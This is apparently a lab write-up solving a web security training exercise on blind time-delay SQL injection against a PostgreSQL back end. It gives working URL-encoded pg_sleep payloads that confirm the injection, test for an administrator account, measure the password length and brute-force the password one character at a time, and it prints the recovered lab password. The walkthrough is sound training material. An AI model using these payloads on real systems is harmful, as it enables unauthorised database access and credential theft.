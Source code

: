 # Lab: Blind SQL injection with time delays and information retrieval #

## Lab Description ##

![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/76beeee9-dd9c-4c5b-affb-36ae2a8c0951)

## Target Website ## 
![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/c36087da-4cac-4ddb-a5c6-afb5c1df13e1)

> When we use the payload `'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--` so what it means
  is that if 1=1 then delay of 10 seconds else delay of 0 seconds we get the result after the 10 seconds 

![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/b27d4fb3-df38-4aa9-8360-baf8aeeeba19)

> let change 1=2 which is false it should give output immediately.

![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/4267b815-518d-4865-a1f6-a058f13b8550)

> We get the output immedialtely

> We have to extract the details from the database `'%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`
  we are using this payload to check whether user named administrator is there or not

 ![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/2314d06f-9800-40c6-a9c0-c60919524c52)
> We got the output 10 second delay so administrator is there.

> We have to find the password of the administrator first we have to find the length of the password

  ![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/3c497783-a658-479f-a149-736c77aa092a)
  
> It took 10 seconds get response  password length is greater than 1 we send this to intruder to find the length.
![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/f1df51a2-cb8e-47ff-a099-c8417b85aa6b)

> From 20 onwards time delay is less than 10 seconds we can say that password length 20 we have to bruteforce password.

![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/0e90ceaf-dafa-46d5-a012-202157a06d7a)

> When we try find the first character of the password we got output the less than the 10 seconds using the payload
  `'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='a')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`
> we can bruteforce password

> So by bruteforcing we found that first letter of the password `w` so we can use substring to bruteforce rest


![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/078e443b-fd8e-4acd-80e0-9e868d12dcc4)

we got the passsord `wtrfgutpd474e1d9q521`

![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/899a4661-4958-4e5e-96d1-9be4b0f036e1)


